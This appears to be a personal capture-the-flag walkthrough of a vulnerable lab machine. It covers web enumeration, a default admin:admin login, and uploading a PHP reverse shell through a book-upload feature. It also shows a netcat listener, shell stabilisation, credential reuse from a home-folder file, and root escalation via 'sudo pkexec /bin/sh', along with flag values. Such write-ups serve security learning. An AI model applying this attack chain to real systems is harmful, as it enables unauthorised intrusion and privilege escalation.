Port 80

Default apache web page.

Gobuster:
- `/secret`

![[IMG/Pasted image 20240920072343.png]]

- `/secret/robot.txt`

![[IMG/Pasted image 20240920073213.png]]


- `/robots.txt` Disallow: gym

- `/index.php`

![[IMG/Pasted image 20240920072545.png]]

- `/registration.php`

![[IMG/Pasted image 20240920072629.png]]

- `/store/admin.php`

Has a weak admin password

user: admin
pass: admin

![[IMG/Pasted image 20240920075245.png]]

Info for uploading a reverse shell via the upload book function.

![[IMG/Pasted image 20240920083405.png]]

![[IMG/Pasted image 20240920083431.png]]

![[IMG/Pasted image 20240920083553.png]]

PHP shell:
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

- I modify the IP and PORT as suggested inside the script.

![[IMG/Pasted image 20240920090324.png]]

I set up a netcat session and then navigate to the page to fire the php shell.

```php
rlwrap nc -nlvp 8443
```

![[IMG/Pasted image 20240920083750.png]]

i cat `/var/www/local.txt` to get the first flag

```php
cat /var/www/local.txt
```

`529168bcca8647a04825fdfad466c42f`

I stabilise the shell a little bit so i can see what directory i'm in.

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I take a look in the home directory and find the user tony with the admin pass in a text file inside their home folder.

![[IMG/Pasted image 20240920084637.png]]

ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin

i'll try to switch into the tony account, run linpeas and then see if anything is available on the websites.

```php
su tony
```

User: tony
Pass: yxcvbnmYYY

I try to see if the user can use sudo for privilege escalation before uploading linpeas.

![[IMG/Pasted image 20240920085148.png]]

I take a look at https://gtfobins.github.io/#g and go through the list to see a viable exploit to gain root privileges.
https://gtfobins.github.io/gtfobins/pkexec/

```php
sudo pkexec /bin/sh
```

`587c8bd198694a39b352471a7610e401`

![[IMG/Pasted image 20240920085713.png]]
 
--- 

**Completed:** _08:57 2024-09-20_
